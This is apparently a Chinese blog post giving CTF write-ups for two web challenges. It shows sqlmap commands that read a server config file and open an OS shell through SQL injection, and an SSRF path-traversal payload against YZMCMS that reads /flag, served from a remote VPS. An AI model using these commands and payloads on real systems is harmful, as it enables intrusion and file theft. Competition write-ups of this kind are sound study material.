



<!--yml
category: 未分类
date: 2022-04-26 14:30:38
-->

# 纵横杯CTF部分WEB题解_ChenZIDu的博客-CSDN博客

> 来源：[https://blog.csdn.net/chenzidu/article/details/111792190](https://blog.csdn.net/chenzidu/article/details/111792190)

# easyci

一道SQL注入题，大概思路：sql注入写入shell，读取flag文件。
sqlmap先读取"/etc/apache2/apache2.conf"内容。

```
sqlmap -u http://eci-2ze0xe7juyhmgubdhea1.cloudeci1.ichunqiu.com/public/index.php/home/login --data "username=admin&password=1" -p username --technique B --dbms mysql --threads=10 --file-read="/etc/apache2/apache2.conf" 
```



发现绝对路径（/var/sercet/html）再写入shell

```
sqlmap -u http://eci-2ze3qpk9e6qoggl1cuol.cloudeci1.ichunqiu.com/public/index.php/home/login --data "username=admin&password=1" -p username --technique B --dbms mysql --os-shell 
```

# ezcms

参考文章：
[YZMCMS V5.3后台 SSRF](https://www.cnblogs.com/Spec/p/11188198.html)
[Bug #76857 Can read “non-existant” files](https://bugs.php.net/bug.php?id=76857)

这边主要是因为如果将不支持的协议的URL传递给文件系统
功能，则它们会将其视为本地文件路径,这边必须请求http或者https,所以构造一个httpssss即可。
远程vps利用python起一个web服务。

```
python3 -m http.server 80 
```



伪造文件

```
<test123><a href="httppp://sdxcas.com/../../../../../../../../../../../../../flag">123</a></test123> 
```

测试读取

